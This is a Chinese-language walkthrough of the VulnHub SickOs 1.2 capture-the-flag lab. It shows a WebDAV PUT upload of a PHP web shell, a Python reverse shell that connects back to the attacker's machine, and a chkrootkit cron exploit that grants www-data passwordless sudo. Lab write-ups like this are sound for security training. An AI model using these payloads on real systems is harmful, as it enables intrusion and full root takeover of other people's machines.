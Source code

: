 # SickOs 1.2

下载地址：https://download.vulnhub.com/sickos/sick0s1.2.zip

## 实战操作

扫描靶场IP地址：`192.168.32.148`

![image-20220531102836395](../../.gitbook/assets/image-20220531102836395.png)

扫描端口，发现只开启**22**和**80**端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT  -p1-65535 192.168.32.148                                                                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-30 22:30 EDT
Nmap scan report for 192.168.32.148
Host is up (0.00067s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:3D:60:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 104.58 seconds
                                                                     
```

浏览器访问80端口

![image-20220531103338753](../../.gitbook/assets/image-20220531103338753.png)

使用目录扫描器只扫描到**test**目录

![image-20220531103856954](../../.gitbook/assets/image-20220531103856954.png)

通过 curl 检查可用方法时，PUT 方法可用。这可用于上传反向 shell。

```
┌──(root💀kali)-[/tmp]
└─# curl -v -X OPTIONS  http://192.168.32.148/test/
*   Trying 192.168.32.148:80...
* Connected to 192.168.32.148 (192.168.32.148) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.32.148
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Tue, 31 May 2022 10:40:36 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.32.148 left intact

```

通过 PUT 请求利用文件上传，使用 curl 上传包含以下代码的 PHP 文件，这将允许我们远程执行代码：

```
┌──(root💀kali)-[/tmp]
└─# curl -v -X PUT -d '<?php echo system($_REQUEST['cmd']);?>' http://192.168.32.148/test/shell.php
*   Trying 192.168.32.148:80...
* Connected to 192.168.32.148 (192.168.32.148) port 80 (#0)
> PUT /test/shell.php HTTP/1.1
> Host: 192.168.32.148
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 36
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Tue, 31 May 2022 10:41:40 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.32.148 left intact
```

![image-20220531104217544](../../.gitbook/assets/image-20220531104217544.png)

通过 cmd 参数执行 python 反向 shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

仍然没有收到反向shell。一段时间后，**使用端口 443 成功**。这表明 iptables/firewall 仅允许在选定端口上的出站流量。

![image-20220531105959779](../../.gitbook/assets/image-20220531105959779.png)

查看Linux发行版和内核

```
www-data@ubuntu:/var/www/test$ uname -a
uname -a
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
www-data@ubuntu:/var/www/test$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04.4 LTS"
NAME="Ubuntu"
VERSION="12.04.4 LTS, Precise Pangolin"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu precise (12.04.4 LTS)"
VERSION_ID="12.04"

```

查看定时计划，找到**chkrootkit**的计划任务

```
www-data@ubuntu:/var/www/test$ cat /etc/cron.daily/chkrootkit
cat /etc/cron.daily/chkrootkit
#!/bin/sh

set -e

CHKROOTKIT=/usr/sbin/chkrootkit
CF=/etc/chkrootkit.conf
LOG_DIR=/var/log/chkrootkit

if [ ! -x $CHKROOTKIT ]; then
  exit 0
fi

if [ -f $CF ]; then
    . $CF
fi

if [ "$RUN_DAILY" = "true" ]; then
    if [ "$DIFF_MODE" = "true" ]; then
                                eval $CHKROOTKIT $RUN_DAILY_OPTS > $LOG_DIR/log.today.raw 2>&1
                                # the sed expression replaces the messages about /sbin/dhclient3 /usr/sbin/dhcpd3
                                # with a message that is the same whatever order eth0 and eth1 were scanned
                                sed -r -e 's,eth(0|1)(:[0-9])?: PACKET SNIFFER\((/sbin/dhclient3|/usr/sbin/dhcpd3)\[[0-9]+\]\),eth\[0|1\]: PACKET SNIFFER\([dhclient3|dhcpd3]{PID}\),' \
                                -e 's/(! \w+\s+)[ 0-9]{4}[0-9]/\1#####/' $LOG_DIR/log.today.raw > $LOG_DIR/log.today
        if [ ! -f $LOG_DIR/log.expected ]; then
                                                echo "ERROR: No file $LOG_DIR/log.expected"
                                                echo "This file should contain expected output from chkrootkit"
                                                echo
                                                echo "Today's run produced the following output:"
                                                echo "--- [ BEGIN: cat $LOG_DIR/log.today  ] ---"
                                                cat $LOG_DIR/log.today
                                                echo "--- [ END: cat $LOG_DIR/log.today ] ---"
                                                echo
                                                echo "To create this file containing all output from today's run, do (as root)"
                                                echo "# cp -a $LOG_DIR/log.today $LOG_DIR/log.expected"
                                                echo "# (note that unedited output is in $LOG_DIR/log.today.raw)"
                                elif ! diff -q $LOG_DIR/log.expected $LOG_DIR/log.today > /dev/null 2>&1; then
                                                echo "ERROR: chkrootkit output was not as expected."
                                                echo
                                                echo "The difference is:"
                                                echo "---[ BEGIN: diff -u $LOG_DIR/log.expected $LOG_DIR/log.today ] ---"
                                                diff -u $LOG_DIR/log.expected $LOG_DIR/log.today || true
                                                echo "---[ END: diff -u $LOG_DIR/log.expected $LOG_DIR/log.today ] ---"
                                                echo
                                                echo "To update the expected output, run (as root)"
                                                echo "#  cp -a -f $LOG_DIR/log.today $LOG_DIR/log.expected"
                                                echo "# (note that unedited output is in $LOG_DIR/log.today.raw)"
        fi
    else
        eval $CHKROOTKIT $RUN_DAILY_OPTS
    fi
fi

```

查看exp信息

```
┌──(root💀kali)-[/opt]
└─# searchsploit -x linux/local/33899.txt
```

![image-20220531111228156](../../.gitbook/assets/image-20220531111228156.png)

因此，如果我们创建一个 bash 脚本并将其放在目录中调用的文件`update`中`/tmp`并设置其可执行权限，它将以 root 身份运行。

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
chmod 777 /tmp/update
sudo su
```

![image-20230208160448038](../../.gitbook/assets/image-20230208160448038.png)
